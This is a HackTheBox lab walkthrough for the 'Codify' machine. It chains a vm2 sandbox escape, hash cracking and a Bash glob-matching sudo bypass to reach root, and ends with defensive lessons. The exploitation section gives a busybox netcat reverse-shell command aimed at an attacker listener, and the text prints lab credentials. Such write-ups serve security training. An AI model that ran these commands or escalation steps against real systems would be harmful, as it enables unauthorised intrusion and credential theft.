


# Codify — HackTheBox Walkthrough

**Platform:** HackTheBox
**Difficulty:** Easy
**OS:** Linux

---

## TL;DR

Vulnerable Node.js `vm2` sandbox on the web application leads to initial shell (CVE-2023-30547) → Enumeration reveals a SQLite database containing a hashed password → Cracking the hash yields SSH access for user `joshua` → A vulnerable Bash script running as `root` via `sudo` allows password bypassing through unquoted variable pattern matching (`*`) → `pspy` captures the root MySQL password during script execution → `su root`.

---

## Enumeration

Full nmap scan:

```bash
nmap -sC -sV -p- -n -Pn --min-rate=9018 10.10.11.239
```

**Open Ports:**
| Port | Service | Version |
|------|---------|---------|
| 22 | SSH | OpenSSH 8.9p1 Ubuntu |
| 80 | HTTP | Apache httpd 2.4.52 |
| 3000 | HTTP | Node.js Express framework |

The Nmap scan reveals two web servers. Port 80 runs Apache and redirects to `codify.htb`, and Port 3000 runs a Node.js Express application named "Codify".

---

## Exploitation — vm2 Sandbox Escape

Navigating to the web application hosted on Port 3000, we find a code execution sandbox. Reviewing the site's "About" page or source code reveals that the application uses the `vm2` library to safely execute user-submitted JavaScript code.

However, `vm2` has a history of critical vulnerabilities. Specifically, the version running here is vulnerable to a sandbox escape that allows for arbitrary Remote Code Execution (RCE) on the host machine (CVE-2023-30547).

We can find a public Proof of Concept (PoC) for this exploit on GitHub:
- `https://gist.github.com/arkark/e9f5cf5782dec8321095be3e52acf5ac`

By modifying the PoC payload, we inject a standard BusyBox reverse shell command:

```javascript
// Payload injected into the PoC
busybox nc 10.10.14.12 4444 -e /bin/sh
```

Executing this in the web application's sandbox triggers the exploit, sending a reverse shell back to our Netcat listener.

We now have initial access as the `svc` user.

---

## Privilege Escalation — Database Extraction & Bash Script Abuse

Running initial enumeration on the box, we check for other user directories and find the user `joshua`.

Digging through the web application files located in `/var/www/contact/`, we discover a SQLite database file named `tickets.db`. Downloading and inspecting this database reveals a hashed password for `joshua`:

```text
joshua:$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
```

We save the hash to a file (`josh.hash`) and use Hashcat to crack it offline against the RockYou wordlist. The `$2a$` prefix indicates it is a bcrypt hash (mode `3200`). *Note: Always specify wordlists as text paths like `/usr/share/wordlists/rockyou.txt` rather than clickable links.*

```bash
hashcat -m 3200 josh.hash /usr/share/wordlists/rockyou.txt --force
```

Hashcat quickly cracks it. The password for `joshua` is `spongebob1`.
We can now establish a stable SSH connection: `ssh joshua@10.10.11.239`.

We have user access.

Once logged in as `joshua`, our first check is `sudo -l` to see what commands we can run with elevated privileges.



We see we are allowed to run the `/opt/scripts/mysql-backup.sh` script as `root` without a password. Reviewing the script's contents:

```bash
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
# ... [snip] ...
read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
# ... [snip] ...
```

There is a critical vulnerability in the validation logic: `if [[ $DB_PASS == $USER_PASS ]]; then`. 

Because `$USER_PASS` is not enclosed in double quotes on the right side of the `==` operator within double brackets `[[ ]]`, Bash evaluates it as a globbing pattern rather than a literal string. 

This means we can provide a wildcard character `*` as the password. The statement evaluates as "Does the actual password match anything?", which returns true, bypassing the check entirely!

While running the script with `*` bypasses the check, we still want the actual root password because the script ultimately passes `$DB_PASS` to `mysql` via the command line.

We open two SSH sessions for `joshua`.
In the first session, we run `pspy64` (a tool to monitor running processes).
In the second session, we run the vulnerable script with `sudo` and input `*` as the password.

```bash
sudo /opt/scripts/mysql-backup.sh
Password: *
```

In the first terminal running `pspy`, we catch the execution of the `mysql` command triggered by the script. The command line arguments expose the actual root password retrieved from `/root/.creds`:



The captured root password is `kljh12k3jhaskjh12kjh3`. 

We simply switch users to root using `su root` and provide the password.

We are `root`. 🎉

---

## Key Takeaways

- **Unquoted Variables in Bash:** Always enclose variables in double quotes within Bash `[[ ]]` test constructs to prevent unintended globbing and pattern matching evaluation.
- **Process Monitoring:** Tools like `pspy` are invaluable during privilege escalation. Any script that passes passwords or secrets via command-line arguments (like `mysql -p"$DB_PASS"`) will leak those secrets to anyone monitoring the process list.
- **Dependency Management:** Regularly update third-party libraries. `vm2` was widely known to be vulnerable and was ultimately deprecated by its author because it could not be secured effectively.

---

*Thanks for reading! Follow for more HackTheBox walkthrough content.*